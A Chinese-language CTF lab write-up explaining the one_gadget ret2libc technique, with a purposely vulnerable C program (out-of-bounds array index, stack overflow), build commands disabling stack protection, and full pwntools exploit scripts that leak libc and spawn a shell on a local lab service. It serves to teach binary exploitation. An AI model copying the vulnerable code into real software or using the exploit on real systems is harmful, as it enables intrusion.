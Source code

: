 ```yaml
---
title: "Day14－Other ret2libc(one gadgets)"
date: 2024-09-14
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)


## 前言

昨天的內容利用了 `libc` 進行攻擊，不過實際上我們使用的 gadgets 長度既不算長也不算短。而且在之前的題目中，我們常常隨意填充 `rbp`，那麼 `rbp` 真的沒有用嗎？事實上，它是有作用的。像是 [one gadget](https://github.com/david942j/one_gadget) 這個工具，就會使用到 `rbp`，而且它能使 gadgets 的長度最短，因為它只需要控制 `rbp` 和 8 個 byte 的 return address 即可。

## [One Gadget](https://github.com/david942j/one_gadget)

在函式庫中，有些函式會呼叫 `execve('/bin/sh', argv, envp)`，簡單來說就是可以拿來開啟 shell。像是 `system(cmd)` 可能會執行 `fork() + execve('/bin/sh', ["sh","-c",cmd], environ)`。因此，如果跳到 `system` 的某個中段，最終可能會執行 `execve('/bin/sh', argv, environ)`。

不過，雖然這樣說，直接跳過去不一定會成功，但通常有很多個 one gadget，所以多試幾個總會有成功的可能。如果你想進一步了解工具的運作方式，或者想手動尋找 one gadget，建議參考 david942j 在 HITCON CMT 2017 的議程 [david942j - 一發入魂 One Gadget RCE](https://youtu.be/L9maBmiJGAc?si=1eEG5bjKVoFp37gv)。

## 使用

使用以下指令安裝 one gadget 工具：

```bash
gem install one_gadget
```
安裝完成後，只需要針對 libc 找出可用的 one gadget，指令如下：

```sh=
one_gadget <libc file>
```

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008K62FYkI6ok.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008K62FYkI6ok.png)

可以看到工具會列出各個 gadget 的限制條件，因此需要滿足這些條件，像是 `rbp` 的值或其他 register 的位置。通常我不會過於在意這些限制條件，只要 `rbp` 符合條件即可，比如符合 `rbp-0x78`、`rbp-0x48` 或 `rbp-0x50` 是可寫的。

我的習慣是使用 `gdb` 將程式運行起來，然後通過 `vmmap` 查看哪些區域是可寫的。找到沒有寫入資料的區段後，將 `rbp` 設置為那個區段的位址。接著，如果失敗，就換另一個 gadget 繼續測試。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long num[10] = {0};
    while(1){
        puts("1. Edit number");
        puts("2. Show number");
        puts("3. Exit");
        printf(">> ");
        int choice;
        scanf("%d", &choice);
        switch(choice){
            case 1:
                printf("Index: ");
                int idx;
                scanf("%d", &idx);
                printf("Number: ");
                scanf("%lld", &num[idx]);
                break;
            case 2:
                printf("Index: ");
                int idx2;
                scanf("%d", &idx2);
                printf("Number: %lld\n", num[idx2]);
                break;
            case 3:
                break;
            default:
                puts("Invalid choice");
                break;
        }
        if(choice == 3){
            break;
        }
    }
    char message[0x20];
    printf("Leave a message: ");
    read(0, message, 0x80);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2libc_adv.c -o ./ret2libc_adv/share/ret2libc_adv -fno-stack-protector
```

## writeup

相比昨天的 Lab，這次的 `read` 可以 overflow 的部分變小了，但其餘部分相同，仍然可以通過越界讀取來 leak `libc base`。查看反組譯碼會發現能 overflow 的位置只有到 `rbp` 和 return address，因此非常適合使用 one gadget。

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008yFlNWJ4fsb.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008yFlNWJ4fsb.png)

使用 one gadget 找到的 gadget 如下：

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008xQ14w6zHq1.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008xQ14w6zHq1.png)

接下來，我們寫一個簡單的 script 來確認條件，看看能使用哪個 gadget。在測試之前，記得依照昨天的方式換 `libc`，指令如下：

```sh=
patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-linux-x86-64.so.2 ./ret2libc_adv
```

然後寫測試的 script 並掛上 `gdb`：

```py=
from pwn import *

r = process('./ret2libc_adv')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
payload = b'A' * 0x70
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)

r.interactive()
```

執行後，在 return address 觀察 `register` 的狀態以及應該填充的 `rbp` 值：

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008j5bZxryD0j.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008j5bZxryD0j.png)

既然我們已經有了 `libc base address`，就可以查看 `libc` 的可寫段：

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008SKTzE0UFRl.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008SKTzE0UFRl.png)

我通常習慣從最尾端找起，使用指令 `x/30gx 0x7f83a8e81000-0x78`，發現大多區域都是可寫的。

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008RHzLZkwxaz.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008RHzLZkwxaz.png)

回到剛才找到的 one gadget，最後一個 gadget 的 offset 是 `0xebd43`，看起來條件符合。我們將 `rbp` 填入之前找到的可寫區段（記得加上 offset 和 `libc address`）。

![https://ithelp.ithome.com.tw/upload/images/20240928/201630089bSMLV125H.png](https://ithelp.ithome.com.tw/upload/images/20240928/201630089bSMLV125H.png)

完整 exploit：

```py=
from pwn import *

# r = process('./ret2libc_adv')
r = remote('127.0.0.1', 10006)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
rbp = libc_base + 0x21c000
one_gadget = libc_base + 0xebd43
payload = b'A' * 0x70 + p64(rbp) + p64(one_gadget)
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![https://ithelp.ithome.com.tw/upload/images/20240928/20163008xk4D3e0K7n.png](https://ithelp.ithome.com.tw/upload/images/20240928/20163008xk4D3e0K7n.png)